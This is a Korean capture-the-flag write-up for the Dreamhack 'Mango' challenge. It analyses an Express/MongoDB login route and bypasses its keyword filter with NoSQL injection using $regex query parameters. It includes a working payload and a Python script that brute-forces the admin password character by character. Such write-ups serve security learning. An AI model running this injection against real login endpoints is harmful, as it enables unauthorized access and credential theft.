 # Mango

### Overview

[Link (Mango)](https://dreamhack.io/wargame/challenges/90)

**Environment**
```
Language: Javascript
Framework: ExpressJS
Database: MongoDB
```


1. Code Analysis<a href="#1-code-analysis"><sup>[1]</sup></a>
    - main.js
        - Hint
        - `BAN`
        - `filter`
        - `/login`
        - `/`

2. Vulnerability<a href="#2-vunerability"><sup>[2]</sup></a>

    - NoSQL Injection

3. Scenario<a href="#3-scenario"><sup>[3]</sup></a>

4. Payload<a href="#4-payload"><sup>[4]</sup></a>

5. Exploit<a href="#5-exploit"><sup>[5]</sup></a>

6. Conclusion<a href="#5-conclusion"><sup>[6]</sup></a>

---

### 1. Code Analysis

- main.js

    - Hint
    ```
    // flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
    ```
    `Flag`의 위치를 알려주고 있으며, `upw`의 형태 및 조건을 알려주고 있다.

    <br/>

    - `BAN`
    ```js
    const BAN = ['admin', 'dh', 'admi'];
    ```
    이후 `filter`에 사용될 문자열들로, 개인적으로 이 부분에서도 약간의 힌트가 있었다고 생각하였다.  
    `admin`뿐만 아니라 `admi`까지 따로 제시된 것을 보고 정규표현식을 떠올렸다.

    </br>
    
    - `filter`
    ```js
    filter = function(data){
        const dump = JSON.stringify(data).toLowerCase();
        var flag = false;
        BAN.forEach(function(word){
            if(dump.indexOf(word)!=-1) flag = true;
        });
        return flag;
    }
    ```
    파라미터로 전달받은 `data`를 소문자로 변환하고, `BAN` 배열을 확인하여 해당하는 문자열이 있다면 `true`를, 아니라면 `false`를 반환한다.

    <br/>

    - `/login`
    ```js
    app.get('/login', function(req, res) {
        if(filter(req.query)){
            res.send('filter');
            return;
        }
        const {uid, upw} = req.query;

        db.collection('user').findOne({
            'uid': uid,
            'upw': upw,
        }, function(err, result){
            if (err){
                res.send('err');
            }else if(result){
                res.send(result['uid']);
            }else{
                res.send('undefined');
            }
        })
    });
    ```
    `req`로 받은 파라미터를 `filter` 함수를 적용하여 `true`일 경우 화면에 `filter`를 출력하고 동작을 마친다.  
    그렇지 않은 경우 `uid`와 `upw`에 받은 파라미터값을 입력한다.  
    이후 Database `user`에서 변수 `uid`와 `upw`가 DB 내 `uid`, `upw`에 해당하는 값을 하나 찾는다.  
    오류 발생 시 `err`를 출력하고, 결과값이 나온 경우 해당 값의 `uid`를 출력한다.  
    이외의 경우 `undefined`를 출력하여 동작을 종료한다.
    
    </br>
    
    - `/`
    ```js
    app.get('/', function(req, res) {
        res.send('/login?uid=guest&upw=guest');
    });
    ```
    `/login?uid=guest&upw=guest`를 출력한다.  
    `login`페이지의 존재 여부와 해당 페이지로 전달되는 파라미터를 알려주는 페이지이다.  
    해당 값을 URL에 입력하면 쿼리 결과값의 `uid` 부분인 `guest`가 출력된다.

---

### 2. Vunerability
- NoSQL Injection: 동적 쿼리를 생성하며, 쿼리에 대한 검증이 따로 없다. 필터가 존재하나 약한 필터라 평가된다.

---

### 3. Scenario

1. 가용한 정보는 `flag`의 위치, 해당하는 `uid` 문자열과 `upw`의 형태 및 조건, `filter`에 의해 걸러지는 문자열이 있다.

2. 확인된 취약점은 `NoSQL Injection`이다.

3. 공격자 입장에서는 쿼리에 알맞은 질의가 이루어졌는지 확인하는 것만 가능하다.

4. 정규표현식을 이용해 `admin`과 관련한 Payload를 전달하여 `admin`이 출력되는지 확인한다.

5. 이후 Blind SQL Injection처럼 쿼리 반환값을 이용, Brute Force Attack을 수행하여 `Flag`인 `upw`를 알아낸다.

---

### 4. Payload

```
/login?uid[$regex]=ad.in&upw[$regex]=D*
```
`uid`와 `upw` 파라미터를 MongoDB에서 사용되는 정규표현식으로 전달한다.  
전달한 값으로 `uid`는 `admin`의 `m` 자리에 임의의 문자 한개가 포함되는 값, `upw`는 `DH{*}`에서 `D` 이후 임의의 문자열이 추가된 값이다.  
해당 값을 입력하면 `admin`이 출력된다.

---

### 5. Exploit

1. exploit.py
```python
import requests
import string

HOST = input("Host: ")
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''
for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```
`HOST`에 호스트 주소를 입력받는다.  
`upw`에 포함될 수 있는 문자를 `ALPHANUMERIC`에 저장한다.  
익스플로잇에 성공하면 `admin`이 출력되기에 `SUCCESS`에 해당 문자열을 저장한다.  
`flag`를 문자열로 정의하고, 이후 Brute Force Attack에 의해 생성되는 문자열을 저장한다.  
`Flag` 문자열이 32자임을 알고 있으므로 32번의 문자 대조를 실시한다.  
`ALPHANUMERIC`의 문자를 하나씩 `upw` 파라미터에 넣어 정규표현식에 맞는 질의인지 확인하고 `flag`에 문자를 추가해준다.  
동작이 모두 완료되면 `FLAG`값을 알 수 있다.

2. index
![index](/Wargame/Mango/img/index.png)

3. login - guest
![login - guest](/Wargame/Mango/img/login%20-%20guest.png)

4. login - admin(Regular Expression)
![login - admin](/Wargame/Mango/img/login%20-%20admin.png)

5. Execute exploit.py
![exploit](/Wargame/Mango/img/exploit.png)

---

### 6. Conclusion



---

[_Go to top_ ↑](#mango)